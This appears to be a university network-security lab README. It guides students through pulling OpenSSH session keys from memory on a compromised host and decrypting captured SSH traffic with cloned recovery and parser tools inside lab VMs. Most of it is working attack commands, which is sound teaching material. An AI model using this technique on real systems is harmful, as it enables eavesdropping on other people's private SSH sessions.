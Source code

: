 # SSH insecurity example
## Prerequisites
1. Host-based network with attack, infrastructure, and target VMs
2. Termsvr container in target VM

## Overview
You will setup a passive listener on an SSH session between two hosts.  In this example, these are our Attack VM (a compromised host where an attacker has local access) and the Target VM.  You will setup the connection between the two but imagine that from the attacker's perspective, that connection was happening by others and you have the local access on one side.

In addition to having local access, the attacker is able to capture the encrypted traffic going over the network.  For simplicity, you will use Wireshark running also inside the Attack VM.

```
| Attack VM (client) | <---------SSH---------> | Target VM (server) |
                                  |
                                  V
                                 Tap (Wireshark running from Attack VM)
```
Also inside the Attack VM, you will create a new development container and install utilities (details below) to be able to gather the session keys and decrypt the ssh session by using them.

## Instructions
1. Launch a new devel container on the Attack VM and setup to capture the ssh session keys (note: we are just downloading the vanilla kali image and do not need a Dockerfile to build one) from it
    ```
    $ docker run --name devel --network host -it kalilinux/kali-last-release:latest /bin/bash 
    # apt-get update
    # apt-get install python3 python3-pip python3-venv git
    # cd ~ && mkdir sandbox && cd sandbox
    # git clone https://github.com/jhu-information-security-institute/netsec-OpenSSH-Session-Key-Recovery
    # python3 -m venv sshcrack
    # source sshcrack/bin/activate
    (sshcrack) # pip install cython psutil python-ptrace
    (sshcrack) # python3 netsec-OpenSSH-Session-Key-Recovery/pip-package/openssh_session_keys/keys.py
    ```
1. Connect to the devel container from a second session to install and build OpenSSH-Network-Parser (tool that decrypts the ssh session using the keys, and its pynids dependency)
    ```
    # apt-get install python2 python2-dev virtualenv libglib2.0-0 libpcap-dev libnet1-dev libnids-dev curl
    # curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
    # python2 get-pip.py
    # pip2 install virtualenv
    # python2 -m virtualenv venv-pynids
    # source venv-pynids/bin/activate
    (pynids) # pip2 install gevent tabulate
    (pynids) # git clone https://github.com/jhu-information-security-institute/netsec-pynids
    (pynids) # cd netsec-pynids 
    (pynids) # python setup.py build
    (pynids) # python setup.py install
    (pynids) # cd ..
    (pynids) # git clone https://github.com/jhu-information-security-institute/netsec-OpenSSH-Network-Parser
    (pynids) # cd netsec-OpenSSH-Network-Parser
    (pynids) # pip2 install .
    ```
1. Startup wireshark in attack VM to capture the following ssh session (use filter tcp.port eq 2222) on the interface attached to VMNet1 (on netsec-docker.isi.jhu.edu, 192.168.25.0/24).
1. From the Attack VM, SSH into the termsvr: `# ssh -p 2222 -c aes256-gcm@openssh.com student@term.netsec-docker.isi.jhu.edu`
    * Note that we specify aes256-gcm, which is supported by the network-parser tool (some of the other modes, including the default one, aren't supported)
1. Once you see the keys appear in the first console (i.e., the one running keys.py), you can exit out of the keys.py command and also the ssh session.  For the former, you'll want the results that were output to the screen and save the pcap for the latter.
1. Copy the saved *.pcap into your devel docker container.  Then, in your second devel session, use the network-parser utility to decrypt the *.pcap by providing it and the captured keys to the following command: `(pynids) # network-parser -p <PCAPFILE> -o my/output/dir --proto=[protocol] [--popt key=value] [-s] [-vvvv]`
1. profit!

